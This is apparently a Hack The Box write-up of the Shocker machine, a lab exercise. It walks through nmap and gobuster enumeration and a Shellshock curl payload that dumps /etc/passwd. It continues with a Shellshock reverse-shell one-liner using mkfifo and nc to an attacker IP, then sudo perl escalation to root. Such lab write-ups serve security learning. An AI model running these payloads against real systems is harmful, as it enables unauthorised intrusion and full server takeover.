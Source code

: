 ```yaml
---
layout: default
title : muzec - Shocker Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/124268074-0d572100-db07-11eb-9ce1-7f4bf48fb359.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/retired/10.10.10.56]
└─$ cat nmap.nmap               
# Nmap 7.91 scan initiated Fri Jul  2 03:15:53 2021 as: nmap -sC -sV -oA nmap 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.45s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE VERSION
80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1310/tcp filtered husky
2222/tcp open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  2 03:17:29 2021 -- 1 IP address (1 host up) scanned in 95.67 seconds
```

We are having two open ports nice seems we are checking HTTP port first to see what we have running.

![image](https://user-images.githubusercontent.com/69868171/124268074-0d572100-db07-11eb-9ce1-7f4bf48fb359.png)

`Don't Bug Me!` really let check the source code if we have anything.

![image](https://user-images.githubusercontent.com/69868171/124268955-40e67b00-db08-11eb-9888-9c4b01668445.png)

Nothing also time to burst some directory.

![image](https://user-images.githubusercontent.com/69868171/124269078-696e7500-db08-11eb-9228-5976f0db735a.png)

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB]                                                                                                                           
└─$ gobuster dir -u 10.10.10.56/cgi-bin/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html,bak,sh,pl,cgi
===============================================================
Gobuster v3.1.0                                                                    
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/       
[+] Method:                  GET
[+] Threads:                 10                                                    
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              sh,pl,cgi,txt,php,html,bak
[+] Timeout:                 10s
===============================================================
2021/07/02 04:26:23 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 118]
Progress: 7472 / 1764488 (0.42%)              [ERROR] 2021/07/02 04:32:38 [!] Get "http://10.10.10.56/cgi-bin/149.cgi": context deadline exceeded (Client.Timeout excee
ded while awaiting headers)
[ERROR] 2021/07/02 04:32:38 [!] Get "http://10.10.10.56/cgi-bin/asia.sh": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
```

Seems like a shellshock let confirm it.

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/retired/10.10.10.56]
└─$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://10.10.10.56/cgi-bin/user.sh


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash
```

Seems we are right let try to get a reverse shell.

`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.61 1337 >/tmp/f'" http://10.10.10.56/cgi-bin/user.sh`

![image](https://user-images.githubusercontent.com/69868171/124270422-2f05d780-db0a-11eb-9102-cb6af2538179.png)

We have shell let spawn a TTY shell with `python3 -c 'import pty; pty.spawn ("/bin/bash")'` and we should be good to go now.

![image](https://user-images.githubusercontent.com/69868171/124270787-a50a3e80-db0a-11eb-9f14-8aa49344d90c.png)

Going to the home directory and we have user.txt let get root now.

### Privilege Escalation

Always check `sudo -l` .

![image](https://user-images.githubusercontent.com/69868171/124271262-3e395500-db0b-11eb-9d80-934b16aa8831.png)

Time to check `gtfobins` searching and we have the command.

![image](https://user-images.githubusercontent.com/69868171/124271507-89536800-db0b-11eb-84ef-fd571a196889.png)

Now let try it `sudo perl -e 'exec "/bin/sh";'` and we are root

![image](https://user-images.githubusercontent.com/69868171/124271685-c0297e00-db0b-11eb-9140-6677f84608f5.png)

We are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
